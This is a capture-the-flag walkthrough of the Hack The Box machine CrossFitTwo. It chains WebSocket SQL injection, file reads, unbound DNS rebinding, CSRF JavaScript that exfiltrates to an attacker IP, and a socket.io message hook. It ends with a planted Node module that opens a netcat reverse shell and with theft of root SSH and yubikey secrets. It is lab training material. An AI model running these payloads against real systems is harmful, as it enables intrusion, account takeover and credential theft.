

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.232 crossfit.htb

**nmap scan:**
```bash
PORT     STATE SERVICE             VERSION
22/tcp   open  ssh                 OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 35:0a:81:06:de:be:8c:d8:d7:27:66:db:96:94:fd:52 (RSA)
|   256 94:60:55:35:9a:1a:a8:45:a1:ae:19:cd:61:05:ec:3f (ECDSA)
|_  256 a2:c8:6b:6e:11:b6:70:69:db:d2:60:2e:2f:d1:2f:ab (ED25519)
80/tcp   open  http                (PHP 7.4.12)
|_http-server-header: OpenBSD httpd
|_http-title: CrossFit
8953/tcp open  ssl/ub-dns-control?
| ssl-cert: Subject: commonName=unbound
| Not valid before: 2021-01-11T07:01:10
|_Not valid after:  2040-09-28T07:01:10
```

* **OS:** OpenBSD
* Port 8953 is running Unbound dns server.
  * **[Unbound](https://www.nlnetlabs.nl/projects/unbound/about/)** is a validating, recursive, caching DNS resolver.

Found 2 subdomains from burpsuite spider


```bash
gym.crossfit.htb
employees.crossfit.htb
```

`employees.crossfit.htb` contains a login page.



`gym.crossfit.htb` have WebSocket API used for chat feature.


# Foothold

## Websocket

* **WebSocket API** is an advanced technology that makes it possible to open a two-way interactive communication session between the user's browser and a server.

There are three commands. When we use third command `memberships` to check memberships and click on any membership 


it send a request with a extra parameter: `"params":"1"`


And another thing is that every request uses a unique token, when client first time connect to the server, server send a token that uses in the client's next request and this token changes every time when server response to a client.

### Websocket client python script

```py
import argparse
import sys
import websockets
import asyncio
import json

url = "ws://gym.crossfit.htb/ws/"
parser = argparse.ArgumentParser()
parser.add_argument('-m', '--message', help='Send command')
parser.add_argument('-p', '--params', help='Test "params" parameter')
args = parser.parse_args()


async def lets_talk():
    async with websockets.connect(url) as ws:
        msg = await ws.recv()
        json_data = json.loads(msg)
        payload = json.dumps({"message": "help", "token": json_data["token"]})
        if args.message:
            payload = json.dumps({"message": args.message, "token": json_data["token"]})
        elif args.params:
            payload = json.dumps({"message": "available", "params": args.params, "token": json_data["token"]})
        print(f"< {payload}")
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")


if __name__ == "__main__":
    try:
        if len(sys.argv) == 1:
            parser.print_help()
        else:
            asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
```

While testing `params` parameter found sql injections.

**Boolean based Blind SQL Injection**


**SQL UNION injection**


## SQL injection

### websocket client mitm server

Creating a php server based websocket client so we can automate sql injetion with sqlmap.

* There is a library **[`textalk/websocket`](https://github.com/Textalk/websocket-php)**, We can use for websockets in php.

Install it in project folder
```php
composer require textalk/websocket
```

Create php script
```php
<?php

require 'vendor/autoload.php';

use WebSocket\Client;

$client = new WebSocket\Client("ws://gym.crossfit.htb/ws/");
$recv_token = $client->receive();
$token = json_decode($recv_token, true)["token"];
$payload = json_encode(array('message' => 'available', 'params' => $_GET['id'], 'token' => $token));
$client->send($payload);
echo $client->receive();
$client->close();

?>
```


### Boolean based Blind SQL Injection

* Found injection with payload: `1 AND 1=1`

And now we can use sqlmap to automate sql injection.

Some sqlmap flags to make scan more acurate based on known information.
```bash
--technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
--string=STRING     String to match when query is evaluated to True
```

```bash
#retrieving database names
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql --dbs

available databases [3]:
[*] crossfit
[*] employees
[*] information_schema

#retrieving tables
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees --tables

Database: employees
[2 tables]
+----------------+
| employees      |
| password_reset |
+----------------+

#dump data
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees -T employees --dump
```


**These password hashes are not crackable**

Check if database user have any privileges
```bash
database management system users privileges:
[*] %crossfit_user% [1]:
    privilege: FILE
```

* From mysql docs "A user who has the **FILE privilege** can read any file on the server host that is either world-readable or readable by the MySQL server."

* sql payload for boolen based blind injection for checking if file exixt: **`1 AND !isnull(load_file(0x<filepath_in_hexadecimal>))`**

Check `/etc/passwd` file
```bash
❯ python websocket.py -p '1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))'
< {"message": "available", "params": "1 AND 1 AND !isnull(load_file(0x2f6574632f706173737764))", "token": "97c47b19d8c2fc7f2ea9cfe79078fb2279478e15c4fb2ede301b8ad4c3d08e46"}
> {"status":"200","message":"Good news! This membership plan is available.","token":"645e596d99d2d03b82588868b437831c89f13bda4c168b318ed59b6d5f00a7b6","debug":"[id: 1, name: 1-month]"}
```

Read file with sqlmap
```bash
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --file-read="/etc/passwd"
```

### UNION sql injection to Read file

* Found injection with payload: `3 UNION SELECT 1,2`

This is more faster than blind injection because values are reflacted in the response.

**Updated Websocket client python script**

```py
import argparse
import sys
import websockets
import asyncio
import json

url = "ws://gym.crossfit.htb/ws/"
parser = argparse.ArgumentParser()
parser.add_argument('-m', '--message', help='Send command')
parser.add_argument('-p', '--params', help='"params" parameter value')
parser.add_argument('-u', '--union', action='store_true', help='Enable UNION injection')
parser.add_argument('-f', '--file', action='store_true', help='Enable file reading')
args = parser.parse_args()


async def lets_talk():
    async with websockets.connect(url) as ws:
        msg = await ws.recv()
        json_data = json.loads(msg)
        payload = json.dumps({"message": "help", "token": json_data["token"]})
        if args.message:
            payload = json.dumps({"message": args.message, "token": json_data["token"]})
        elif args.params:
            if args.union:
                payload = json.dumps({"message": "available", "params": f"3 UNION SELECT ({args.params}),2", "token": json_data["token"]})
                # print(f"< {payload}")
                await ws.send(payload)
                msg = await ws.recv()
                json_data = json.loads(msg)
                rspn = json_data["debug"][5:-9].replace(',', '\n')
                print(rspn)
                exit(0)
            elif args.file:
                payload = json.dumps({"message": "available", "params": f"3 UNION SELECT (select load_file('{args.params}')),2", "token": json_data["token"]})
                # print(f"< {payload}")
                await ws.send(payload)
                msg = await ws.recv()
                json_data = json.loads(msg)
                rspn = json_data["debug"][5:-9]
                print(rspn)
                exit(0)
            else:
                payload = json.dumps({"message": "available", "params": args.params, "token": json_data["token"]})
        print(f"< {payload}")
        await ws.send(payload)
        msg = await ws.recv()
        print(f"> {msg}")

if __name__ == "__main__":
    try:
        if len(sys.argv) == 1:
            parser.print_help()
        else:
            asyncio.get_event_loop().run_until_complete(lets_talk())
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
```

* **Retrieve all Databases names:** `SELECT group_concat(schema_name) FROM information_schema.schemata`
* **Retrieve all tables of specific database:** `Select group_concat(table_name) from information_schema.tables where table_schema='<database_name>'`
* **Retrieve all columns of specific table:** `SELECT group_concat(column_name) from information_schema.columns where table_name ='tablename'`
* **Retrieve columns:** `SELECT group_concat(column1,":",column2) from <database_Name>.<table_Name>`
* **Check dbms users privileges:** `SELECT group_concat(grantee,':',privilege_type) FROM information_schema.user_privileges`
* **Read file:** `SELECT load_file('<file_name>')`**


## DNS Hijacking

### relayd

While checking conf files, one interesting file found is httpd server.

* OpenBSD httpd server config file default path is `/etc/httpd.conf`

host/subdomains listening on diffrent local port but we can access them from remote port 80.
```bash
❯ python websocket.py -f -p "/etc/httpd.conf"

server "0.0.0.0" {
	no log
	listen on lo0 port 8000

... [snip] ...

server "employees" {
	no log
	listen on lo0 port 8001

... [snip] ...

server "chat" {
	no log
	listen on lo0 port 8002

... [snip] ...
```

OpenBSD uses [`relayd`](https://man.openbsd.org/relayd.8) for doing this.

* relayd is a daemon to relay and dynamically redirect incoming connections to a target host.
* OpenBSD relayd config file path is `"/etc/relayd.conf"`

```bash
❯ python websocket.py -f -p '/etc/relayd.conf'
table<1>{127.0.0.1}
table<2>{127.0.0.1}
table<3>{127.0.0.1}
table<4>{127.0.0.1}
http protocol web{
	pass request quick header "Host" value "*crossfit-club.htb" forward to <3>
	pass request quick header "Host" value "*employees.crossfit.htb" forward to <2>
	match request path "/*" forward to <1>
	match request path "/ws*" forward to <4>
	http websockets
}

table<5>{127.0.0.1}
table<6>{127.0.0.1 127.0.0.2 127.0.0.3 127.0.0.4}
http protocol portal{
	pass request quick path "/" forward to <5>
	pass request quick path "/index.html" forward to <5>
	pass request quick path "/home" forward to <5>
	pass request quick path "/login" forward to <5>
	pass request quick path "/chat" forward to <5>
	pass request quick path "/js/*" forward to <5>
	pass request quick path "/css/*" forward to <5>
	pass request quick path "/fonts/*" forward to <5>
	pass request quick path "/images/*" forward to <5>
	pass request quick path "/favicon.ico" forward to <5>
	pass forward to <6>
	http websockets
}

relay web{
	listen on "0.0.0.0" port 80
	protocol web
	forward to <1> port 8000
	forward to <2> port 8001
	forward to <3> port 9999
	forward to <4> port 4419
}

relay portal{
	listen on 127.0.0.1 port 9999
	protocol portal
	forward to <5> port 8002
	forward to <6> port 5000 mode source-hash
}
```

* Found another host **`crossfit-club.htb`**
* `"*crossfit-club.htb"` And `"*employees.crossfit.htb"` contains a wildcard.

### Unbound

with file read we can also read unbound config file and retrieve its server and control key. With these files we can edit server dns entries.

* OpenBSD install unbound config file in `/var/unbound/etc/unbound.conf`

Get cerf file locations from config file
```bash
server-key-file: "/var/unbound/etc/tls/unbound_server.key"
server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
control-key-file: "/var/unbound/etc/tls/unbound_control.key"
control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"
```

Download all file and add there path in a local unbound config file to connect to remote unbound server.
```bash
remote-control:
    server-cert-file: "/crossFitTwo/dump/unbound_server.pem"
    control-key-file: "/crossFitTwo/dump/unbound_control.key"
    control-cert-file: "/crossFitTwo/dump/unbound_control.pem"
```


### DNS Hijacking

* There is a "forgot password" option in `employees.crossfit.htb` login page.

  

* Found Email address from sql injection

      ❯ python websocket.py -u -p "SELECT group_concat(email) from employees.employees"
      david.palmer@crossfit.htb
      jack.parker@crossfit.htb
      maria.williams@crossfit.htb
      will.smith@crossfit.htb

and `david.palmer@crossfit.htb` is admin.

* When we send password reset request, server send a email to that user with reset link. 
* From relayd config file we found that server resolve `*employees.crossfit.htb` where wildcard can be anything it still resolve `employees.crossfit.htb`.
* And we can write any rule in unbound-control.
  * unbound flag `forward_add [+i]` allow to add forward zone.

If we add a new host "`anything-employees.crossfit.htb`" in unbound-control that resolve from attacker dns server and than request password reset from that domain. It will go through relayd proxy and resolve this domain as "`*employees.crossfit.htb`" and send email from "`anything-employees.crossfit.htb`" domain. When Victim click on reset link, crossfit's unbound-control forward this domain's dns query to attacker's dns server and attacker dns server will return attacker's http server's ip address for that domain.

this is a messed up situation, that why i create a mind map to understand this situation clearly.


#### Add forward zone rule in unbound-control

* from unbound-control [man page](https://www.nlnetlabs.nl/documentation/unbound/unbound-control/), There is a flag `forward_add [+i]` that "Add  a new forward zone to running unbound."

```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i <Domain_name> <DNS_server_IP>
```


#### Setup fake dns and http server

```bash
dnschef -i <VPN_IP> --fakedomains <Domain_name> --fakeip <VPN_IP>
```


Get DNS quary but don't get any http request. Server response with "Only local hosts are allowed". That means there are some security measures in the server that checks if dns resolves localhost or not.

Replacing domain ip to localhost `127.0.0.1`


This time get more dns queries, But still don't get any http request from victim. That's because victim can not reach to attacker's localhost.

### DNS Rebinding

Here DNS Rebinding comes into play.

Basic motive of dns rebinding is that the server accepts a certain number of requests from a client for a domain and then it changes the IP address to a different one.

`dnschef` don't have dns rebinding feature but there is a python script on github [FakeDns](https://github.com/Crypt0s/FakeDns) that can help in this situation.

Create confing file for `FakeDns` with a dns rebind rule.
```bash
A ex-employees.crossfit.htb 127.0.0.1 2%10.10.15.71
```

We add 2 before `%` that menas that server takes 2 request on IP `127.0.0.1` and then change IP to `10.10.15.71`.

And this time get request on http server and get reset link.


But link is not working.


But reset request we got on our server contains `Referer` header value `http://crossfit-club.htb/`.

This means that user click on link from `crossfit-club.htb` vHost.

## vHost

`crossfit-club.htb` have a login page that send login request to a api endpoint.


And there is a signup option, That is disabled.


Found 2 endpoints from api fuzzing with GET methond and 2 from POST method.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://crossfit-club.htb/api/FUZZ

auth                    [Status: 200, Size: 66, Words: 1, Lines: 1]
ping                    [Status: 200, Size: 71, Words: 3, Lines: 1]


ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://crossfit-club.htb/api/FUZZ -X POST

login                   [Status: 200, Size: 50, Words: 3, Lines: 1]
signup                  [Status: 200, Size: 50, Words: 3, Lines: 1]
```

`auth` response with a tokem


Try to get signup, return csrf token error 


When try to login, get the csrf token header


And with csrf token, get "Only administrators can register accounts." message.


## CSRF

### Account Registration

We already make admin to connect to our http server from dns hijacking. Here we can use cross site request forgery to execute javascript from admin browser which register new account on behalf of admin.

Create a javascript that execute from victim's browser and register account. *[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script>

// retrive csrf token from admin login session.
var req1 = new XMLHttpRequest();
req1.open("GET", "http://crossfit-club.htb/api/auth", false);
req1.withCredentials = true;
req1.send();
var obj = JSON.parse(req1.response);

// register new account from admin browser.
var req2 = new XMLHttpRequest();
req2.open("POST", "http://crossfit-club.htb/api/signup", false);
req2.setRequestHeader("Content-Type", "application/json");
req2.setRequestHeader("X-CSRF-TOKEN", obj.token);
req2.withCredentials = true;
const data = JSON.stringify( {"username": "poorduck", "email": "poorduck@duckland.duck", "password": "p00rduck", "confirm": "p00rduck"} );
req2.send(data);

// send signup response to attacker's server.
var req3 = new XMLHttpRequest();
req3.open("GET", "http://10.10.15.71/?" + btoa(req2.response));
req3.send();

</script>
</html>
```

Save as `password-reset.php` in the www directory.

And execute same [DNS Rebinding](#dns-rebinding) attack. If everything goes well we'll get a extra request that contains signup response.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i ex-exployees.crossfit.htb 10.10.15.71
sudo php -S 0.0.0.0:80
```


After some time get requests from victim but don't get any response of signup.

When debug php file in local browser, found "Cross-Origin Request Blocked"


### CORS Bypass using host header

from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-2), There is a server misconfiguration scenario where the dot was not escaped correctly. something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.

And here this technique work for both subdomains `employees.crossfit.htb` and `gym.crossfit.htb`
```bash
❯ curl -s -q -v -H 'Origin: http://employeesXcrossfit.htb' http://crossfit-club.htb/api/auth 2>&1 | grep "Origin"
> Origin: http://employeesXcrossfit.htb
< Access-Control-Allow-Origin: http://employeesXcrossfit.htb
```

Now the another thing we can do with that misconfigured domain `*employees.crossfit.htb` in relayd config. That wildcard can be anything. if we add something like `anything.htb/anything-employees.crossfit.htb` it still resolves `employees.crossfit.htb`

```bash
❯ curl -s -X 'POST' -H 'Host: anything.htb/anything-employees.crossfit.htb' --data-binary 'email=david.palmer%40crossfit.htb' 'http://10.10.10.232/password-reset.php' | grep alert | sed 's/.*role="alert">\(.*\)<button.*/\1/'
Only local hosts are allowed.
```

but host value stored as `anything.htb/anything-employees.crossfit.htb` and browser translate host as `anything.htb` and strip anything after first domain and this time, When victim click on reset link it will redirect to `anything.htb`.

Doing same [DNS Hijacking](#dns-hijacking) attack but this time we change host domain to `employeesXcrossfit.htb/employees.crossfit.htb`.

This time we add `employeesXcrossfit.htb` domain in unboun-control, because when user click on link with `employeesXcrossfit.htb/employees.crossfit.htb` host his browser everything after first domain and make request to `employeesXcrossfit.htb`.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71
```

And change `fakedns` config rule 
```bash
A employeesXcrossfit.htb 127.0.0.1 2%10.10.15.71
```


python script to automate this
```py
from re import findall
from time import sleep
from subprocess import Popen, PIPE, STDOUT
from os import system
import requests as r

websocket = "ws://gym.crossfit.htb/ws/"
url = "http://employees.crossfit.htb/password-reset.php"
def req_token():
    data = {"email": "david.palmer@crossfit.htb"}
    headers = {"Connection": "keep-alive", "Host": "employeesXcrossfit.htb/employees.crossfit.htb"}
    rspn = r.post(url, data=data, headers=headers)
    alert = findall(r'role="alert">(.*?)<button', rspn.text)[0]
    return alert


fakedns = "/home/x00tex/git-tools/FakeDns/fakedns.py"
conf = "fakedns.conf"

# system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i ex-employees.crossfit.htb 10.10.15.71')
system('unbound-control -c ./unbound.conf -s 10.10.10.232 forward_add +i employeesXcrossfit.htb 10.10.15.71')
out = Popen(['python', f'{fakedns}', '-c', f'{conf}'], stdout=PIPE, stderr=STDOUT)

sleep(5)
rspn = req_token()
print(rspn)
if "Reset link sent" in rspn:
    system("sudo php -S 0.0.0.0:80")
else:
    out.kill()
    exit()
```

### Socket.io listener hooing

After login to `crossfit-club.htb` found only functional page `chat`


Chat function is using `socket.io` javascript api library.

**socket.io:** Socket.IO is a JavaScript library for realtime web applications. It enables realtime, bi-directional communication between web clients and servers. It has two parts: a client-side library that runs in the browser, and a server-side library for Node.js. Both components have a nearly identical API.

server and client's Socket object act as `EventEmitters`, you can emit with `socket.emit()` and listen with `socket.on()` for events in a bi-directional manner.

How client side socket.io script is working is, It generate 3 requests. First it set a GET event `listener` then second send a ping/message in POST `emit` request and receive server response in first GET event `listener` and Third start new GET event `listener`.

There are 2 types of chat, Global chat and Private chat.

From `http://crossfit-club.htb/js/app~748942c6.ead68abe.js` we can see all listener.


If we send message to any user, we can see his reply in first GET listener response. but it is not showing in chat window.


If we hook `private_recv` listener of admin account to our server, we can read admin messages.

Using the same [CSRF account registration](#csrf-account-registration) technique to trick admin to execute a javascript that executes from admin browser and hook `private_recv` to our http server and intercept all traffic that come through `private_recv` listener.

*[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script src="http://crossfit-club.htb/socket.io/socket.io.js"></script>
<script>
var socket = io.connect('http://crossfit-club.htb');
socket.emit("user_join", { username : "admin" });

socket.on("private_recv", function(msg) {
	var req = new XMLHttpRequest();
	req.open("GET", "http://10.10.15.71/?" + btoa(JSON.stringify(msg)));
	req.send();
});
</script>
</html>
```

after some time, receive message with user "David" ssh passowrd


<!--david:NWBFcSe3ws4VDhTB-->

# Privesc

User "david" is in "sysadmins" group.


Searching for files where "sysadmins" group users have read/write access.
```bash
crossfit2$ find / -group sysadmins -ls 2>/dev/null
1244170    4 drwxrwxr-x    3 root     sysadmins      512 Feb  3  2021 /opt/sysadmin
```

Find a javascript file inside `/opt/sysadmin/server/statbot`
```bash
-rw-r--r--  1 root  wheel  740 Jan 13  2021 statbot.js`
```

* script is executing every minute and loging data in `/tmp/chatbot.log`

## Node module hijack

script using 2 nodejs modules
```js
const WebSocket = require('ws');
const fs = require('fs');
```

but there is no node_module directory in current folder. Whenever we create a new project and install required modules with `nmp` they installed in `node_modules` directory inside project folder. if not than used from nmp global library. you can understand nodejs folder Structures from [docs.npmjs.com](https://docs.npmjs.com/cli/v7/configuring-npm/folders)

* websocket module install in `node_modules/ws` directory and load from `node_modules/ws/index.js`.

Get nodejs reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

user "david" have write access in `/opt/sysadmin` directory.

Create recursive directry `node_modules/ws/` and inside this folder create `index.js` file with reverse shell.

```bash
mkdir -p /opt/sysadmin/node_modules/ws/
cat << EOF > /opt/sysadmin/node_modules/ws/index.js
require('child_process').exec('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.71 4141 >/tmp/f')
EOF
```


Got shell as user "john"

User "david" is in "staff" group.


Searching for files where "staff" group users have read/write access.
```bash
crossfit2$ find / -group staff -ls 2>/dev/null
1481580   20 -rwsr-s---    1 root     staff        9024 Jan  5  2021 /usr/local/bin/log
```

Find a suid binary inside owned by "staff" group.

This binary can read log files.
```bash
crossfit2$ /usr/local/bin/log

* LogReader v0.1

[*] Usage: /usr/local/bin/log <log file to read>
```

Binary is reading every file inside `/var` directory, but we can not read any file out side `/var` directory.
```bash
crossfit2$ /usr/local/bin/log /var/unbound/etc/unbound.conf

* LogReader v0.1

[*] Log size: 777

server:
	interface: 127.0.0.1
	interface: ::1

#... [snip] ...
```

Because bianry is using [`unvail`](https://man.openbsd.org/unveil.2) function to set `/var` direcotry


When searching for `openbsd /var/backup` first result is `changelist`


Form [`changelist`](https://man.openbsd.org/changelist) description: "The `/etc/changelist` file is a simple text file containing the names of files to be backed up and checked for modification by the system security script. It is checked daily by the /etc/daily script. Each line of the file contains the name of a file, specified by its absolute pathname, one per line. By default, configuration files in `/etc`, `/root`, and `/var` are added during system install. Backup files are held in the directory `/var/backups`".

* `/etc/changelist` file contains root ssh key `/root/.ssh/id_rsa` in the list.

And from same `/etc/changelist` man page, how files stored in the `/var/backups` direcotry: "For example, the system shell database, `/etc/shells`, is held as /var/backups/etc_shells.current. When this file is modified, it is renamed to `/var/backups/etc_shells.backup` and the new version becomes `/var/backups/etc_shells.current`. Thereafter, these files are rotated".

* `/root/.ssh/id_rsa` conatins `+` that means it is modified. That means file stored in `/var/backups` as `root_.ssh_id_rsa.current`. We can read it with `/usr/local/bin/log` from `/var/backups/root_.ssh_id_rsa.current`

## yubikey

Try to login with root ssh key, it's asking for passsowrd. checking ssh debug logs, ssh login use 2 Authentication method `publickey` and `password`.


from `etc/ssh/sshd_config`
```bash
Match User root
	AuthenticationMethods publickey,password
```

And `/etc/login.conf`
```bash
daemon:\
#... [snip] ...
	:auth-ssh=yubikey:\
```

ssh Authentication required passowrd for root and that password is a yubikey.

**YubiKey** is a hardware authentication device manufactured by Yubico.

First time Configuration generate 2 files `username.uid` and `username.key`

from [login_yubikey](http://man.openbsd.com/login_yubikey.8) man page: "`login_yubikey` will read the user's UID (12 hex digits) from the file `user.uid`, the user's key (32 hex digits) from `user.key`, and the user's last-use counter from `user.ctr` in the `/var/db/yubikey` directory.

So when we login to ssh and enter password, `login_yubikey` increment user's login counter and verify entered passowrd based on above parameters.

We can read these file with `/usr/local/bin/log` bianry.
```bash
/usr/local/bin/log /var/db/yubikey/root.uid
/usr/local/bin/log /var/db/yubikey/root.key
/usr/local/bin/log /var/db/yubikey/root.ctr
```

There are multiple scripts all tool to generate yubikey OTP.

* [yubisim](https://github.com/dorchain/yubisim): writen in java
  * require java8, which can be enable (if installed) with `sudo update-alternatives --config java` and `sudo update-alternatives --config javac`
  * require "Public ID" which is yubikey device ID
* [yubico-c](https://developers.yubico.com/yubico-c/Releases/): written in c
  * require `asciidoc` and compile from source.


* `yubico-c` technique from [0xdf's walkthrough](https://0xdf.gitlab.io/2021/08/14/htb-crossfittwo.html#ssh-yubikey-login) 
* python script form [xct's video](https://youtu.be/Ln40QxOacTI?t=2035)

*Don't understand it completely but got the root flag with xct's python script.*